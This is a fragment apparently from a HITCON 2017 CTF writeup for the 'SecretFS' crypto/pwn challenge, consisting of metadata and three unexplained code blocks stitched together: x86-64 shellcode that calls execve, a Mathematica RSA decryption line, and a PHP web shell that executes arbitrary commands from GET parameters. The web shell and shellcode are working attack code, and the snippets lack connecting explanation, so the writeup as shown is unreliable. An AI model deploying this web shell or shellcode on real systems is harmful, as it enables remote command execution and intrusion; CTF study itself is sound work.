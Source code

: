 ```yaml
---
title: "Hitcon2017 -- SecretFS Writeup"
categories:
  - Hitcon2017
tags:
  - CTF
  - pwn
  - crypto
---
```


<div class="notice--info">
<strong>Name</strong>: Secret FS<br>
<strong>Category</strong>: crypto, pwn<br>
<strong>Points</strong>: 196<br>
<strong>Solves</strong>: 69<br>
<strong>Given</strong>: <code>secretfs</code>
</div>


```assembly
	xor eax, eax
	mov rdi, rsp
	mov al, 0x3b
	syscall
```

```Mathematica
dec[m_]:=FromCharacterCode@IntegerDigits[m,256];
dec@Mod[PowerMod[c1,39,n] ModularInverse[c2,n], n]
```

```php
<?php
if (isset($_GET['bin'])) {
    passthru($_GET['bin']);
} elseif (isset($_GET['cmd'])) {
    echo '<pre>';
    system($_GET['cmd']);
    echo '</pre>';
} else {
    echo 'No GET params set. Use bin=cmd" for passthru, cmd=cmd for system.';
}
?>
```